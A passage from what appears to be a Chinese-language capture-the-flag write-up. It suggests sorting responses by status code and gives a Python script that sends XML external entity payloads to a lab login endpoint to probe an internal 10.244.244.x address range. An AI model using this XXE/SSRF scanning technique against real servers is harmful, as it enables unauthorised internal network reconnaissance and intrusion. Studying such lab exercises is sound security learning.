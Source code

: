 ![alt text](image-28.png)  

---  

要设置timeout，不然就需要很久，但是作者并不知道如何在yakit中设置，稍微等一会也可以，将状态排序，200的就是好的  
![alt text](image-32.png)  

---  

或者使用一个简单的脚本  
```py
import requests
url="http://02f06db6-7db1-4e58-99b7-e1d85cde4555.node5.buuoj.cn:81/doLogin.php"
for i in range(0,256):
    payload=f'<?xml version="1.0"?><!DOCTYPE user[<!ENTITY root SYSTEM "http://10.244.244.{i}">]><user><username>&root;</username><password>ddd</password></user>'
    try:
        res=requests.post(url=url,data=payload,timeout=1)
        print(res.text,end="\n")
    except:
        continue
```  

---  